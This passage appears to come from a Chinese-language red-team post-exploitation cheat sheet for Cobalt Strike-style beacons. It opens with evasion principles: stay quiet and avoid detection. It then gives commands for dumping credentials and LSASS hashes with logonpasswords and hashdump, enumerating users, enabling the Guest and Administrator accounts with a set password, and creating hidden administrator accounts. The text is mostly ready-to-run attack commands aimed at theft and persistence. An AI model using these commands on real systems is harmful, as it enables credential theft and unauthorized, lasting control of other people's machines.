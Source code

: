 原则就是：
1. 安静
2. 不被发现
3. 尽量用正常的协议
4. 尽量用改造过的工具
# 0x09 密码凭证收集
### 1. 主机密码
```
shell logonpasswords
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250715150910.png)
```
shell hashdump
```
dump lsass进程中的hash(巨龙拉东插件)
```
下载地址：
https://github.com/k8gege/Ladon
```
# 0x10 用户操作相关
### 1. 当前用户
```
shell whoami
一般用这个：
shell echo %username%
```
### 2. 收集用户信息
查看⽤户名，查看⽤户信息
```
net user
net user ⽤户名
```
### 3. 在线⽤户
```
shell query user
```
### 4. 查看域管
```
 shell net localgroup administrators
```
### 5. 激活Guest
```
shell net user guest /active:yes
shell net user guest P@ssw0rd123
shell net localgroup administrators guest /add
shell net localgroup administrators
```
### 6. 激活administrator
```
shell net user Administrator /active:yes
shell net user Administrator P@ssw0rd123
```
### 7. 创建⽤户
```
shell net user ⽤户名 密码 /add #添加⽤户
shell net localgroup administrators ⽤户名 /add #将⽤户加到管理组
```